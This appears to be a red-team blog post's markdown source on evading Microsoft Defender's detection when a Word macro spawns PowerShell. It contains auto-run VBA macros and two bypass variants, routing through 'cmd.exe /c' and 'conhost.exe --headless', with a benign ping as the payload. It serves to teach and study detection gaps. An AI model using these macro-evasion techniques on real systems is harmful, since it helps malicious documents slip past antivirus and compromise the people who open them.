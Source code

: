 ```yaml
---
title: Spawning PowerShell With Macros Without Triggering MS Defender
date: "2021-10-22"
featuredImage: './logo.png'
---
```


Bypass Microsoft Defender when spawning a PowerShell.exe process from MS Word<!-- end -->.

# Parent/Child Process Relationship

Security solutions often monitor process relationships to detect malicious behaviour. With Microsoft Defender, if you attempt to spawn `powershell.exe` from MS Word, it will automatically flag it as a malicious program, regardless of what the spawned PowerShell process does. Let's explore how we can bypass this detection.

## Spawning PowerShell (The Detected Way)

Below we have an innocent looking VBA script that spawns PowerShell.exe via the `Shell` command and runs `ping google.com`.

    Sub AutoOpen()
    Test
    End Sub

    Sub Document_Open()
    Test
    End Sub

    Sub Test()
    Dim str As String
    str = "powershell.exe -c ping google.com"
    Shell str, vbHide
    End Sub

Unfortunately, Defender doesn't seem to agree that it's innocent. PowerShell has been abused to an extent where Microsoft Defender doesn't seem care what the command does.

<img src="./triggered.png" width="50%" height="50%">

If we go view 'Protection History' we can see its being treated as a Trojan.

![Trojan](./malicious.png)

## Spawning PowerShell (The Clean Way)

With an additional 10 characters to our command, Microsoft Defender won't complain anymore. We're going to modify our `Shell` command as shown below.

    # Before
    Shell "powershell.exe -c ping google.com", vbNormalFocus

    # After
    Shell "cmd.exe /c powershell.exe -c ping google.com", vbNormalFocus

![Bypass](./bypass-vid.gif)

Below we can see how the parent/child relationship was modified.

![child-processes-before](./child-processes-before.png)

![child-process-after](./child-processes.png)

## Avoiding Cmd.exe

Although `cmd.exe` is a better alternative than `powershell.exe`, it's still a highly monitored process by defenders. A better way which avoids `cmd.exe` is shown below.

    Shell "conhost.exe --headless powershell.exe -c ping google.com", vbNormalFocus

This way `cmd.exe` and `powershell.exe` are avoided as direct child processes.

![Conhost](./conhost-child.png)

## Why Does This Work?

After looking into this simple bypass it seems that Defender blacklists `powershell.exe` as a direct child process. In pseudocode it's probably programmed something like this:

`if WINWORD.exe spawns PowerShell.exe then Trojan`

Clearly we don't fit the above description so we're good!


# Conclusion

In a real engagement you should probably avoid the `Shell` command altogether, but the point of this post is to demonstrate how small modifications in behaviour can result in a different outcome. 
